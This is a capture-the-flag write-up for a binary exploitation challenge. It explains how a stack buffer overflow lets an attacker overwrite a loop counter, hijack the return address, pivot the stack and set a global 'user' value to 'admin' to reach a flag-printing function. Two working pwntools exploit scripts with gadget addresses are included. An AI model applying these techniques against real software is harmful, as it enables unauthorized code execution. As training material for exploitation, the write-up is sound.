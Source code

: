 # Description

![](./media/Screen%20Shot%202024-06-12%20at%2010.15.33%20PM.png)

## analyzing the binary
first let's decompile the binary so we can figure out what it does, it reads input from user and then print an ascii art

![](./media/Screen%20Shot%202024-06-12%20at%208.42.56%20PM.png)

there is also a `win` function that when called print the output of `flag.txt` file but only if the global variable `user == "admin"`

![](./media/Screen%20Shot%202024-06-12%20at%208.44.18%20PM.png)


# solution
### user input
the user input is provided in the form of chunks of 8 bytes, the last iteration is when `i > 105` and that will be when `i == 112`, so we can overflow the buffer but we only have 4 bytes after the buffer to override.

when we examine the assembly code we find that `i` is at the position `RBP - 0x4` and `buffer` is at `RBP - 0x70` meaning that `i` is lower in the stack so we can override it.

now that we control the loop counter, we can override the return value by calculating the offset between `buffer` and the return value and override `i` accordingly.

### calculating the offset
we can use gdb for this, first we set a break point just before the end of `vuln`, run and provide random input, then we can print the stack and evaluate the offset.


![](./media/Screen%20Shot%202024-06-12%20at%201.20.04%20AM.png)
![](./media/Screen%20Shot%202024-06-12%20at%201.13.55%20AM.png)

```
offset = 112
```

### overriding the return address
now we just need to send the payload to overflow `buffer` and override `i` with `offset`, and then send the new return address

```py
from pwn import *

offset = 112
with gdb.debug('./challenge', gdbscript='', api=True) as p:
    p.gdb.Breakpoint("*vuln+107", temporary=False); # pop rbp
    p.gdb.continue_nowait()

    p.recv()
    for i in range(13):
        p.send(chr(ord('a') + i).encode() * 8);
    p.send(b'AAAA' + p32(offset));
    p.send(b'B' * 8);
    p.gdb.wait()
    p.interactive()
```
![](./media/Screen%20Shot%202024-06-12%20at%208.31.59%20PM.png)

### overriding `user`

we have successfully override the return address but we still need to override `user` before jumping to `win`, in order to do that we will performe a stack pivote to allow us to override more address, first we jump to gadget `sub    rsp,0x70` in `vuln`, `RBP` will now point to the base of `main` since it was poped before `ret`, and we can now execute the `vuln` function but with `buffer` and `i` at a slightly lower position in stack

```
                   ┌────────────────────┐◄────── RSP                           ┌────────────────────┐◄────── RSP
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
RBP - 0x70 ───────►│                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                   RBP - 0x70 ───────►│                    │           
                   │    vuln's stack    │                                      │    vuln's stack    │           
                   │                    │                                      │                    │           
                   │                    │       After poping RBP and           │                    │           
                   │                    │       jumping to gadget              │                    │           
                   │                    │       ───────────────────────►       │                    │           
                   │                    │                                      │                    │           
 RBP - 0x4 ───────►│                    │                                      │                    │           
                   ├────────────────────┤ ◄────── RBP                          ├────────────────────┤           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │                    │                                      │                    │           
                   │    main's stack    │                                      │    main's stack    │           
                   │                    │                                      │                    │           
                   │                    │                    RBP - 0x4 ───────►│                    │           
                   └────────────────────┘                                      └────────────────────┘◄────── RBP 
```

this will make us able to override the return address and also the address after it and also an arbitrary offset from `buffer` by overriding `i`.

the next step is to override `RBP` with `&user + 0x70` then jump to `LEA        RSI ,[RBP - 0x70]` to override `user` then jump to `win` and voila!

![](./media/Screen%20Shot%202024-06-12%20at%209.38.39%20PM.png)

```py
from pwn import *                                                                                                                 
                                     
offset = 112
offset2 = 0x00007fff9054e5d8 - 0x7fff9054e500
                                     
                                     

with remote('localhost',14124) as p: 
    time.sleep(0.1)                                                       
    p.recv()                                                               
                                                                           
    for i in range(13):                                                    
        p.send(chr(ord('a') + i).encode() * 8);               
    p.send(b'AAAA' + p32(offset));
    p.send(p64(0x004011f4)); # sub rsp, 0x70
    #p.send(b'B' * 8);
                                     
    p.recv()
    for i in range(10):                                                    
        p.send(chr(ord('a') + i).encode() * 8);
    p.send(p64(0x404070)); # &user - 0x70
    p.send(p64(0x40122e)); # call read
    p.send(b'B' * 8);
    p.send(b'AAAA' + p32(offset2 - 8));
    p.send(p64(0x00401160)); # win addr
                                     
    p.recv()                                                               
    p.send(b'admin\x00\x00\x00')
    print(p.recv())                                                        
    p.interactive()

#flag: AKASEC{y4pp1n6_15_50m371m35_u53full_9b9b3d9}

```


